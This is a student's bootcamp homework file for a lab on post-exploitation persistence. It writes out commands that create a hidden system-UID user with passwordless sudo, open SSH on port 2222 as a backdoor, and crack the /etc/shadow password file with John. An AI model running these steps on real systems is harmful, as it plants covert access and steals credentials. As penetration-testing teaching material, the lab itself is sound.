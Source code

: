 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 869 sysd`

      <img src="\IMAGE\sysdID.png">

        ![description](IMAGE/sysdID.png)

    4. Give your secret user the same GID:
    - `sudo groupmod -g 869 sysd`

        <img src="C:\Users\Rob\Desktop\University-of-Minnesota-\week6\IMAGE\sysdID.png"> 

        ![description](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   -  # User privilege specification
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

    <img src="IMAGE/su_acc_nopass.png"> 

    ![description](IMAGE/su_acc_nopass.png)


6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

